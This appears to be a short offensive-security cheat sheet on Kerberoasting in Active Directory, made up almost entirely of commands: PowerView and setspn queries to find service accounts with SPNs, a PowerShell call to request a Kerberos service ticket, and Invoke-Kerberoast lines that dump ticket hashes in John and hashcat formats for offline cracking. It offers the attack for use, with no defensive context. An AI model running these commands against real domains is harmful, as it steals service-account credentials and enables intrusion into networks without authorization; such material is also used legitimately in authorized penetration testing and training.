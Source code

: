 # Kerberoast

## Find SPN

### Powerview

```text
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```text
setspn -T domain -Q Service/*
```

## Request a TGS

### Powershell

```text
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```text
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```

